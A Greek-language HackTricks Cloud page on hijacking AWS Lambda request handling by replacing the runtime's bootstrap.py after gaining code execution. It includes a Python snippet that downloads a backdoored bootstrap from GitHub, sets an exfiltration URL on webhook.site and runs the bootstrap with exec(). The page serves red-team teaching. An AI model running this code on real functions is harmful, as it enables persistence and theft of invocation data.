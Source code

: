 # AWS - Κλοπή Αιτημάτων Lambda

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στο** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) ή στο [**telegram group**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Ροή Lambda

<figure><img src="../../../../.gitbook/assets/image (341).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer** είναι μια διαδικασία εκτός του κοντέινερ που **στέλνει** **κλήσεις** στη διαδικασία **init**.
2. Η διαδικασία init ακούει στη θύρα **9001** εκθέτοντας μερικά ενδιαφέροντα endpoints:
* **`/2018-06-01/runtime/invocation/next`** – λάβετε το επόμενο γεγονός κλήσης
* **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – επιστρέψτε την απάντηση του χειριστή για την κλήση
* **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – επιστρέψτε ένα σφάλμα εκτέλεσης
3. **bootstrap.py** έχει έναν βρόχο που λαμβάνει κλήσεις από τη διαδικασία init και καλεί τον κώδικα των χρηστών για να τις χειριστεί (**`/next`**).
4. Τέλος, το **bootstrap.py** στέλνει στην init την **απάντηση**

Σημειώστε ότι το bootstrap φορτώνει τον κώδικα του χρήστη ως module, οπότε οποιαδήποτε εκτέλεση κώδικα που πραγματοποιείται από τον κώδικα των χρηστών συμβαίνει στην πραγματικότητα σε αυτή τη διαδικασία.

## Κλοπή Αιτημάτων Lambda

Ο στόχος αυτής της επίθεσης είναι να κάνει τον κώδικα των χρηστών να εκτελέσει μια κακόβουλη διαδικασία **`bootstrap.py`** μέσα στη διαδικασία **`bootstrap.py`** που χειρίζεται το ευάλωτο αίτημα. Με αυτόν τον τρόπο, η **κακόβουλη bootstrap** διαδικασία θα αρχίσει να **επικοινωνεί με τη διαδικασία init** για να χειριστεί τα αιτήματα ενώ η **νόμιμη** bootstrap είναι **παγιδευμένη** εκτελώντας την κακόβουλη, οπότε δεν θα ζητήσει αιτήματα από τη διαδικασία init.

Αυτή είναι μια απλή εργασία για να επιτευχθεί καθώς ο κώδικας του χρήστη εκτελείται από τη νόμιμη διαδικασία **`bootstrap.py`**. Έτσι, ο επιτιθέμενος θα μπορούσε:

* **Να στείλει ένα ψεύτικο αποτέλεσμα της τρέχουσας κλήσης στη διαδικασία init**, ώστε η init να νομίζει ότι η διαδικασία bootstrap περιμένει περισσότερες κλήσεις.
* Ένα αίτημα πρέπει να σταλεί στο **`/${invoke-id}/response`**
* Το invoke-id μπορεί να αποκτηθεί από τη στοίβα της νόμιμης διαδικασίας **`bootstrap.py`** χρησιμοποιώντας το [**inspect**](https://docs.python.org/3/library/inspect.html) python module (όπως [προτάθηκε εδώ](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch_runtime.py)) ή απλά ζητώντας το ξανά στο **`/2018-06-01/runtime/invocation/next`** (όπως [προτάθηκε εδώ](https://github.com/Djkusik/serverless_persistency_poc/blob/master/gcp/exploit_files/switcher.py)).
* Εκτελέστε μια κακόβουλη **`boostrap.py`** που θα χειριστεί τις επόμενες κλήσεις
* Για λόγους μυστικότητας είναι δυνατό να στείλετε τις παραμέτρους κλήσεων lambda σε έναν ελεγχόμενο από τον επιτιθέμενο C2 και στη συνέχεια να χειριστείτε τα αιτήματα όπως συνήθως.
* Για αυτή την επίθεση, αρκεί να αποκτήσετε τον αρχικό κώδικα του **`bootstrap.py`** από το σύστημα ή το [**github**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py), να προσθέσετε τον κακόβουλο κώδικα και να τον εκτελέσετε από την τρέχουσα κλήση lambda.

### Βήματα Επίθεσης

1. Βρείτε μια **RCE** ευπάθεια.
2. Δημιουργήστε μια **κακόβουλη** **bootstrap** (π.χ. [https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py))
3. **Εκτελέστε** την κακόβουλη bootstrap.

Μπορείτε εύκολα να εκτελέσετε αυτές τις ενέργειες εκτελώντας:
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
Για περισσότερες πληροφορίες ελέγξτε [https://github.com/carlospolop/lambda\_bootstrap\_switcher](https://github.com/carlospolop/lambda_bootstrap_switcher)

## Αναφορές

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
